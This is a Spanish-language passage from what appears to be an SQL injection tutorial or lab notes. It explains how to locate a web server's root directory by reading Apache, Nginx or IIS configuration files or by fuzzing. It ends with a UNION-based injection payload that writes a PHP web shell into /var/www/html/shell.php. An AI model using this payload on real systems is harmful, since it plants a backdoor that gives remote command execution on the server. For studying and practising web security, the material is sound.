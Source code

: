```shell-session
$ cat /tmp/test.txt 

this is a test
```

```shell-session
$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```


> [!NOTE] 
> Las exportaciones de archivos avanzadas utilizan la función «FROM_BASE64(«base64_data»)» para poder escribir archivos largos/avanzados, incluidos datos binarios.


##### Creando una webshell a través de SQL

Para escribir un shell web, debemos conocer el directorio web base del servidor web (es decir, la raíz web). 

Una forma de encontrarlo es utilizar **load_file** para leer la configuración del servidor, como la configuración de Apache que se encuentra en /etc/apache2/apache2.conf, la configuración de Nginx en /etc/nginx/nginx.conf o la configuración de IIS en %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, o podemos buscar otras posibles ubicaciones de configuración. 

Además, podemos ejecutar un escaneo de fuzzing e intentar escribir archivos en diferentes raíces web posibles, utilizando esta lista de palabras para Linux o esta lista de palabras para Windows. Por último, si ninguna de las opciones anteriores funciona, podemos utilizar los errores del servidor que se nos muestran e intentar encontrar el directorio web de esa manera.


```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

